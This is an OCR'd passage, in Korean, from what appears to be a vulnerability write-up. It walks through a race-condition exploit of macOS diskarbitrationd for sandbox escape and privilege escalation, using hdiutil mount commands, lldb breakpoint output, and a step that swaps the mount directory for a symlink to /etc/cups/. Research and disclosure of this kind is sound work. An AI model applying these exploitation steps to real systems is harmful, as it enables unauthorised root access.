 1.  **mnt** 디렉토리를 생성하여, 디스크를 마운트할 마운트 포인트로 사용합니다. 
2. **dos.dmg** 파일을 열어 디스크 이미지를 로드한 후, 자동으로 마운트된 볼륨 ‘**/Volumes/DISK’**를 **umount** 명령을 통해 해제합니다. 결과적으로 **diskarbitrationd**에서 사용할 수 있는 디스크 장치가 생성됩니다.
3. **diskutil list** 명령을 사용하여 디스크 리스트를 확인하면, **`disk5`**라는 장치가 새로 추가된 것을 볼 수 있습니다. **disk5**는 FDisk 파티션 스킴으로 구성된 10.5MB 크기의 디스크 이미지이고, 내부에 **disk5s1** 파티션이 **DOS_FAT_32** 포맷으로 존재합니다.
4. `hdiutil attach -mountpoint mnt /dev/disk5s1` 명령을 실행하여 **disk5s1** 파티션을 **mnt** 디렉토리에 마운트합니다. 

```python
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = breakpoint 2.1
    frame #0: 0x00000001aa59bc50 libsystem_sandbox.dylib`sandbox_check_by_audit_token
libsystem_sandbox.dylib`sandbox_check_by_audit_token:
->  0x1aa59bc50 <+0>:  pacibsp 
    0x1aa59bc54 <+4>:  sub    sp, sp, #0xb0
    0x1aa59bc58 <+8>:  stp    x20, x19, [sp, #0x90]
    0x1aa59bc5c <+12>: stp    x29, x30, [sp, #0xa0]
Target 0: (diskarbitrationd) stopped.
(lldb) finish
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = step out
    frame #0: 0x00000001005463b8 diskarbitrationd`___lldb_unnamed_symbol712 + 1488
diskarbitrationd`___lldb_unnamed_symbol712:
->  0x1005463b8 <+1488>: mov    w8, #0x9 ; =9 
    0x1005463bc <+1492>: movk   w8, #0xf8da, lsl #16
    0x1005463c0 <+1496>: str    x8, [sp, #0x30]
    0x1005463c4 <+1500>: mov    x20, x19
Target 0: (diskarbitrationd) stopped.
(lldb) b CFRelease
Breakpoint 3: where = CoreFoundation`CFRelease, address = 0x000000019e462edc
(lldb) c
Process 113 resuming
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = breakpoint 3.1
    frame #0: 0x000000019e462edc CoreFoundation`CFRelease
CoreFoundation`CFRelease:
->  0x19e462edc <+0>:  pacibsp 
    0x19e462ee0 <+4>:  stp    x20, x19, [sp, #-0x20]!
    0x19e462ee4 <+8>:  stp    x29, x30, [sp, #0x10]
    0x19e462ee8 <+12>: add    x29, sp, #0x10
Target 0: (diskarbitrationd) stopped.
(lldb) finish
```

이 단계에서 **diskarbitrationd**가 관련 작업을 수행하며, 설정한 **breakpoint**에 도달하게 됩니다.

**4. symbolic link 생성 및 교체**

다음으로, `CFRelease` 호출 지점으로 이동합니다. 이 위치는 **sandbox escape**와 **privilege escalation** 검증 과정의 끝에 해당합니다. 이 시점에서 **diskarbitrationd**이 수행하는 모든 검증을 통과했으므로, 이제 사용중인 디렉토리를 루트가 소유한 위치를 가리키는 **symbolic link**로 교체할 수 있습니다. 

```bash
tree@forest ~ % rm -rf mnt
tree@forest ~ % ln -s /etc/cups/ mnt
```
